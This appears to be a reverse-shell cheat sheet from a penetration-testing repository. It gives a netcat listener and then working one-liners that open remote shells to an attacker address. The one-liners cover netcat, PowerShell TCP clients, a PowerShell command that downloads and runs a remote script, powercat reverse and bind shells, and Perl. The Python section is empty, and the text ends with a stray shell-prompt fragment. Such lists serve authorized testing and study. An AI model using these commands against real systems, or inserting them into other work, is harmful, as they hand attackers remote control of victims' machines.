 # Reverse shell
## Listener 
Before any reverse shell, you need to set up the listener, which will listen to a port and receive connections:
```
nc -nlvp <PORT>
rlwrap nc -nlvp <PORT>
```
## Netcat Traditional
```shell
nc -e cmd.exe 10.0.0.1 4242
```
## Powershell
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```
## Powercat
```
powercat -c 10.11.0.4 -p 443 -e cmd.exe
```
Or start bind shell listener
```
powercat -l -p 443 -e cmd.exe
```
And connect from kali:
```
nc 10.11.0.4 443
```
## Perl
```perl
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

# To confirm on windows: 
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
## Python
Python2:
```powershell
```

[DC01]: PS>